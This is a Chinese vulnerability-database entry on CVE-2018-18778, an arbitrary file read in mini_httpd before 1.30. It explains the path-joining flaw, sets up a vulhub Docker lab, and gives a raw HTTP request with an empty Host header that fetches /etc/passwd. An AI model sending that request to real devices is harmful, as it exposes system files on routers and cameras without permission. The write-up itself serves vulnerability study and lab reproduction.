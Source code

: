 ```yaml
---
title: 'mini_httpd任意文件读取漏洞（CVE-2018-18778）.assets'
date: Tue, 06 Oct 2020 07:31:19 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 前言

Mini\_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini\_httpd组件。

#### 影响版本

ACME mini\_httpd before 1.30

#### 漏洞分析

在mini\_httpd开启虚拟主机模式的情况下，用户请求http://HOST/FILE将会访问到当前目录下的HOST/FILE文件。 (void) snprintf( vfile, sizeof(vfile), "%s/%s", req\_hostname, f ); 见上述代码，分析如下： 当HOST=example.com、FILE=index.html的时候，上述语句结果为example.com/index.html，文件正常读取。 当HOST为空、FILE=etc/passwd的时候，上述语句结果为/etc/passwd。 后者被作为绝对路径，于是读取到了/etc/passwd，造成任意文件读取漏洞。 环境搭建```
cd vulhub/mini_httpd/CVE-2018-18778

docker-compose up -d

启动mini_httpd 1.29： 
![](mini_httpd%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-18778%EF%BC%89/20200619123111737.png) 

环境启动后，访问http://your-ip:8080即可看到Web页面。

#### 漏洞复现

发送请求是将Host置空，PATH的值是文件绝对路径：```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close 
![](mini_httpd%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-18778%EF%BC%89/20200619123140386.png)![](mini_httpd%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2018-18778%EF%BC%89/20200619123155220.png)
